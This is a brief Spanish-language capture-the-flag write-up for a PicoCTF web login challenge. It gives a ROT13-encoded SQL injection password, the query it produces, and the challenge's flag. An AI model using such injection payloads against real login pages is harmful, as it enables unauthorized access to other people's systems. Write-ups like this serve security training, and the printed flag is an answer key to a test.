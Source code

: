 # Retos PicoCTF


## Objetivo 
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/54253/ (link) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Solución 

```
cuando ingresas la password se encripta a rot13 por lo cual se envia encriptado para que lo desencripte.
password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'
Logged in!
Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```

## Notas adicionales 

## Referencias 
